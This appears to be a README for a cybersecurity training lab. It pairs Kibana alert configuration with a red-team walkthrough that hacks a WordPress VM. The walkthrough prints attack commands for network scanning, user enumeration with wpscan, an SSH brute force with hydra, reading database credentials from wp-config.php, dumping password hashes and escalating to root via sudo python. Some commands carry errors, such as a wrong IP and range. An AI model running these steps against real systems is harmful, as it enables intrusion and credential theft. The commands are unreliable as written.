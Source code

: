 
![](images/intro.png)

## Executive Summary

- This project is about a **Network** consisting of two servers, a penetration testing Kali VM and an ELK stack server. In addition there is also a capstone machine that is used to test for alerts. The Network architechture is presented below:

![](images/network.png)

- Initially, **Blue Team Defenses** are configured in **Kibana** to generate alerts in the setting of an attack, while analyzing 'beats' (filebeat, packetbeat, metricbeat) received from an ELK Stack server

- The two servers (Target 1, Target 2) are vulnerable and a **Red Team Penetration Testing** with Kali VM is performed to attack these two targets using the principles of engagement 
    - Information gathering
    - Scanning and enumeration
    - Exploitation
    - Post-Exploitation
    - Reporting

- While the Red Team Peneteration Attacks are in operation, the **Kibana software is monitored** in live stream to test the efficacy of Blue Team Defenses in setting off appropriate alarms

- With all the new information about system wulnerabilities, a final **Purple Team Hardening** is performed against the vulnerabilities discovered during the Red Team penetration testing and the weaknesses identified in the Blue Team Defenses

## Blue Team Defenses

- The network is configured behind a jumb-box and a firewall in defense against the external traffic

- All alerts are configured using the Kibana Software in ELK Stack `192.168.1.100:5601`

- Three alerts were configured to alert SOC Analysts to detect suspicious activity conerning for a potential attack, which are then tested during the red team penetration testing phase. To prevent false positives and negatives I have chosen a threshold to be above 400 in the past 5 minutes

1. Configuring alert for alarm when there are an abnormally high number of HTTP errors, as can be the case in the setting of brute force attacks when the hackers may attempt to crack logins. Note that the indices to query here is defined as `packetbeat` as thats where the http data comes from by default in ELK stack

![](images/http-error-alert.png)

2. Configuring an alert for an alarm when an abnormally high number of bytes have occurred as this can indicate an event of unusual data transfer in the mist of an attack. ote that the indices to query here is defined as `packetbeat` as thats where the http data comes from by default in ELK stack

![](images/http-size-alert.png) 

3. Configuring an alert for alarm when CPU usage spikes to greater than 50%, such unusual heavy usage can be a marker of an attack and warrants investigation / mitigation. Note that the indices to query here is defined as `metricbeat` as thats where the CPU data comes from by default in ELK stack

![](images/cpu-usage-alert.png) 


- Below is the summary page of all three alerts

![](images/all-alerts.png) 


- Once the alerts have been configured. An index pattern is then defined to "watcher_history", this is in essence a standardized format in which the discover queries will present results

![](images/index-pattern.png) 
![](images/index-pattern2.png) 

- Then finally, specifying the index pattern of "watcher_history" in discover

![](images/watcher-discover.png) 


## Red Team Penetration Testing - Using Kali VM

### `1) Information Gathering`

- `ifconfig` to reveal the Kali VM Ip address and the Network range. This informs us that the Kali VM IP address is: `192.168.1.90`. We also learn about the network ranges as the netmask is 255.255.255.0 which means that only the last 8 bits are variable for the range of IP addresses and using the broadcast (the last IP) of `192.168.1.255` we can deduce the range to be `192.168.1.255/16`

![](images/ifconfig.png) 

- `netdiscover -r 192.168.1.255/16` reveals the additional IP addresses in the network such as
    - **Target 1:** `192.168.1.110`
    - **Target 2:** `192.168.1.115`
    - **ELK Stack:** `192.168.1.100` This we already know from when we configured alerts in Kibana
    - **Capstone:** `192.168.1.105` We can confirm that this is capstone by checking hyper V or accessing the terminal in Capstone and using ifconfig
    - **Gateway:** `192.168.1.1` This is usually a default IP for gateways/routers

- This information was used to create the network diagram above

![](images/netdiscover.png) 


### `2) Scanning and Enumeration`

Getting information about open ports using nmap for all hosts in the range of IP addresses of the targets

- `nmap -sV 192.168.1.110-115` Note that the range 110-115 is specified, this contains Target 1, Target 2 and ELK stack - so that the scan is completed faster

![](images/nmapscan.png) 

- The results are similar for both target 1 and target 2. The OS version Apache:

- Both have open ports 80 and 22 which can be exploited

- Both are running Apache 2.4.10 httpd on the http port and Samba smbd 3 on ports 139 and 445


- Finding out the File directory structure, open ports and IP addresses

- `nmap  -sS -A 192.168.1.110`

- Using `wpscan` can help provide information regarding potential users and vulnerabiliteis in wordpress

- `wpscan --url http://192.168.1.110/wordpress -eu` This will reveal the users


![](images/wpscan1.png) 
![](images/users-identified.png) 


### `3) Exploitation Phase I - Hacking Target 1 VM`


- As we know that the ssh ports are open so we can SSH to Michael's account

- `ssh michael@192.168.1.10` reveals that it requires a password. We can use hydra to brute force it an then SSH again

- `hydra -l michael -P /usr/share/john/password.lst  192.168.1.110 ssh`

- `ssh michael@192.168.1.10`

![](images/hydra1.png) 

- After log in some basic commands can be run for navigation

- `ifconfig`, or `ls`, `pwd` if there is shell 

- At this point you can also search for the files containing the name flag `find -name flag2.txt 2>dev/null` (the `2>dev/null` instructs to not show erros of permission denied) or `find -type f -iname ‘flag*’`

![](images/finding-flag.png) 

- This informs me that there is a second flag in the directory `var/www/html`. Even if you do not use find, you can manually explore local directories by hit and trial. The flags usually are like "destination" points leading you towrds the final goal. So obviously, this flag's location shortlists where to look for it further. 

![](images/flag2.png) 


> Accessing the MYSQL database using the root user

- Note that `/var/www/html` is the default root folder of a web server and if you want to access confidential files holding credentials for the MySQL server. This default folder is configured in `apache.config` file

- `wp-config.php` is one of the core files in the wordpress folder that contains information about the databases, such as root user access username and password

- You can check whether the file exists w/o navigating, simply by using ls: `ls /var/www/html/wordpress/wp-config.php`

- And then you can also direcrly visualize it w/o navigating into the directory `cat /var/www/html/wordpress/wp-config.php`

- This reveals the password for root access to the mysql database



- `mysql -u root -p` to log in to mysql and typing the password

- After gaining access into the MYSQL server further information can be gathered by typing the following commands

- `show databases`
- `use wordpress`
- `show tables`
- `select * from wp_posts`
- `select * from wp_users`

- With the new information gathered, the hashes of the usernames can be accessed and copied into a text file for use by `John the Ripper`

- `nano michael-steven_hashes.txt`

- Once the passwords have been hacked. I can now login as Steven via SSH 

- `ssh steven@192.168.1.110`

- Then you can attempt to acquire root access with `sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’` and find flag 4